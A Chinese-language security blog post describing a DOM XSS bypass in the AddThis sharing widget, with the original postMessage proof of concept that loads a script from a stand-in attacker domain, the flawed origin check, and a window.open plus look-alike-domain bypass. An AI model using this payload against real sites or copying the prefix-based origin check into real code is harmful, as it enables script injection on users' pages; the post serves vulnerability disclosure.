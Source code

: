 title: "分享插件AddThis导致的DOM XSS"
date: 2016-12-25 14:03:41
tags: ["安全", "XSS"]

---

## 背景

说明：这个漏洞是 https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/ 修复的绕过，目前已经报告给AddThis并得到修复。

> AddThis是由多姆·沃纳伯格（Dom Vonarburg）创立并由Clearspring公司拥有的一个社会性书签服务。它可以与网站进行整合，访客即可用它将网站上的某些内容通过其他网络服务收藏或分享，诸如Facebook、MySpace、Google书签、Twitter等
> From https://zh.wikipedia.org/wiki/AddThis

使用的例子有：

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30n0dmyqj20nd08o0wd.jpg)

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30nhwnasj20rq0bddho.jpg)

## 分析

使用这款插件，需要在网页上加入类似以下的代码

```html
<!-- Go to www.addthis.com/dashboard to customize your tools -->
<script src="//s7.addthis.com/js/300/addthis_widget.js#pubid=ra-538ceb912f1cca19" async="async"></script>
```

当插件加载完成后，就会监听`message`事件。

![](http://ww3.sinaimg.cn/large/7184df6bgw1fb3110ele5j21340em79m.jpg)

看完前面提到的那篇文章之后，我们可以知道在这个事件处理函数中，如果`message`事件处理函数接收到一个 *合法来源* 的消息，消息内容如下：`at-share-bookmarklet://example.com/xss.js`时，就会动态在页面中插入指定的JS脚本。之前的漏洞是在这里根本没有检查消息的来源就直接加载执行导致了DOM XSS，原先的PoC：

```html
<iframe id="frame" src="https://targetpage/using_addthis"></iframe>

<script>
document.getElementById('frame').contentWindow.postMessage('at-share-bookmarklet://ATTACKERDOMAIN/xss.js', '*');
</script>
```

AddThis对这个漏洞进行的修复如下：
1. 添加检查当前窗口是不是被嵌套在：`iframe`, `frame`等标签里，如果是，则不监听`message`事件。
2. 检查来源

修复后的代码如下：

```js
, c = window.parent === window;
...
c && u(window, "message", function(e) {
  if (e) {
      var t = _atr.substring(0, _atr.length - 1)
        , n = e.origin.indexOf(t) === "https:".length || e.origin.indexOf(t) === "http:".length || /^https?:\/\/(localhost:\d+|localhost$)/.test(e.origin)
        , o = "string" == typeof e.data;
      if (o && n) {
          var a = e.data.match(/at\-share\-bookmarklet\:(.+?)$/) || []
            , i = a[1];
          if (i) {
              try {
                  _ate.menu.close()
              } catch (s) {}
              r(i)
          }
      }
  }
})
```

1. 其中`_attr`的值为`//s7.addthis.com/`，那么`t`的值就是`//s7.addthis.com`
2. `e.origin`是调用了`postMessage`这个API的来源
3. 什么时候`o && n`的值会是真呢？例如站点：`http://s7.addthis.com/`向目标站点发送消息的时候

但这个修复真的没有问题了吗？在使用postMessage进行跨域通信的时候，有以下几种场景：

1. 父窗口与iframe，frame等标签里的子网页进行通信，即上面那个PoC
2. 使用window.open打开一个新的窗口

  ```js
  var win = window.open("http://target.com/index.html");
  win.postMessage("this is a message", "*");
  ```

  `http://target.com/index.html`这个页面就可以监听`message`事件获取到以上的消息。


也就是说，对于一个安装了这个插件的目标站点，我们依旧可以通过方法2发送一个消息给他。另外，这里的域名检查也不完善，简单的说，只要是`s7.addthis.com`开头的域名都是合法的，如`s7.addthis.com.evil.com`

```js
> e.origin = 'http://s7.addthis.com.evil.com'
> e.origin.indexOf(t) === "http:".length
< true
```

你现在在看的这个页面就加载了有漏洞的那个AddThis脚本，我在Github上实现了一个PoC，来XSS当前页面: http://s7.addthis.com.poc.akrxd.net/addthis_poc/poc.html

<script type="text/javascript" src="https://cdn.rawgit.com/zhchbin/zhchbin.github.io/source/js/addthis_widget.js"></script>

